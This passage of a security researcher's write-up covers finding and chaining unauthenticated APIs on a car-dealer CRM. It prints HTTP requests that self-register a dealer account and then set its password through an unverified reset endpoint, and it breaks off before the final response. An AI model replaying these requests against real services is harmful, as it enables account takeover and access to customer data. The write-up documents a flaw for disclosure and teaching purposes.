 

I then reached out to @rootsploit to work on this together, and we started going through the APIs. There were a whole lot of APIs out there and based on the endpoints it looked like they could give us access to some critical customer/dealer information.


We encountered a roadblock, as most of the relevant APIs required a valid bearer token (JWT) for access (as expected). We then actively started skimming through the available APIs for authentication-related endpoints and came across a login endpoint.


```
POST /api/user/login HTTP/1.1
Host: user.dealercrm.co.in


{"username":"CRMXXXXX","password":"XXXXXX"}
```


It needed a username and password - and so now we had to identify a signup endpoint. It was trial and error for us to figure out the correct path. `Sign up` for a car dealer is technically `onboarding` and we found an endpoint with the words dealer,onboarding and master in it:


````
PUT /api/dealeronboarding/dealeronboardingusermastersubmission HTTP/1.1
Host: user.dealercrm.co.in
 
{"firstName":"a","lastName":"a","designationId":1,"experienceId":1,"dateOfBirth":"09/09/1998","dateOfJoining":"01/01/2023","primaryContactNo":"9999999999","secondaryContactNo":"9999999999",emailId":"example@gmail.com","qualificationId":5,"aadharNo":"667666676666","pan":"XXXXXXX","dealerId":100000}
 ````
 On sending this request through curl, we got a 200 OK response with `username` and `userId`. Nice!


 ```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Date: Sat, 15 Feb 2025 15:38:11 GMT
Server: Kestrel
Connection: keep-alive
Content-Length: 73
 
{"errorStatus":false,"message":"Ok","userName":"CRM66666","userId":99999}
```
We got our username in the system but we still haven't set the password yet. I tried resetting the password using the username through the dealercrm portal, thinking that initiating that forgotten password flow might send a code to the email from the dealer onboarding call, but that didn't work.
Going back to the endpoints we figured out a password reset API which accepted username and password as the input - 
 
```
PUT /api/usermanagement/getsubmitnewpasswor HTTP/1.1
Host: user.dealercrm.co.in
 
{"username":"CRM66666","password":"test"}
```
Response:
